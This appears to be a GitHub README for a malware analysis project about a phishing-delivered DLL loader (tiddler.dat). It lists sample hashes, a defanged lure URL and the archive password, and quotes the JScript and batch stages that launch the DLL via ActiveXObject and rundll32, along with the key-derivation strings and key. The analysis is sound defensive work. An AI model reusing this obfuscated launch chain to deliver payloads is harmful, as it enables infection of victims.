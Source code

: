 # 5B54F57DBAA74FA589AFB2D26D6C6B39E0C2930BD88FEA3172556CE96B3EB959

## Loader extractor for sample tiddler.dat

SHA256: 5B54F57DBAA74FA589AFB2D26D6C6B39E0C2930BD88FEA3172556CE96B3EB959

SHA3-384: ad33f268a26d4ec762431f9601a24431cb37f16afa7859f61ce2702093803d45837a3629db92a64fd892a83a72ee8a98

SHA1: 4aa4e28cd07e218e45ec60942c53d82c3f50fea7

MD5: 7754a35deec807d757f79165ba17708d

Three days ago a friend of mine received a phishing e-mail with a link (https[:]//lynxus[.]com/usq/refeidpisnretse) containing a zip file protected by the password "U492". 

<img width="1262" alt="0" src="https://user-images.githubusercontent.com/15001354/193664727-69ee625c-3a4d-4eea-8e71-5e718b625086.png">

Inside the zip there is an ISO called Learn#7435.iso containing a shortcut to the following malicious script:

~~~
// observablyCleaned
var undisruptedPuzzles = "rund DllRegis";

// ShellExecute
var bridgeheadsLibels = new ActiveXObject("shell.application").shellexecute("assaulting\\redressingLamentations.cmd", undisruptedPuzzles, "", "open", 0);
~~~

<img width="1134" alt="1" src="https://user-images.githubusercontent.com/15001354/193664786-75664000-6658-4582-9d27-258bd18f9d39.png">


The script uses ActiveXObject in order to execute another script called redressingLamentations.cmd (in the ISO) by passing the arguments "rund" and "DllRegis". 

Following the redressingLamentations.cmd script:

~~~
@echo off

	set a=ll
	set e=32

	:: tankageLicentiously
	%1%a%%e% assaulting\tiddler.dat,%2terServer

exit
~~~

It runs the command rundll32 assaulting\tiddler.dat,DllRegisterServer in order to start the malicious DLL.

After a bit of analysis, I wrote this simple script to extract the loader in order to practice a bit with python. 
The two strings used to generate the key are taken dynamically, the shellcode is taken dynamically by using the size offset that is hardcoded.
I'll try to write the second stage DLL extractor.

The malicious DLL was uploaded to [Malware Bazaar](https://bazaar.abuse.ch/sample/5b54f57dbaa74fa589afb2d26d6c6b39e0c2930bd88fea3172556ce96b3eb959/) by JAMESWT_MHT.


These two strings are used to generate the key:

* ewZOSoNXdJTjGtfGFtJwDGnslgItKrqSOoXTBEUIeNsATwlqubQMeKZByuBEOxjyadypZOaxQyRosZjVcChW
* gjdhkdfgkjsdghfkjsdhkjslfdghsdkjl

The key is:

* 7fafab656017bf33b9606982e6a6f277


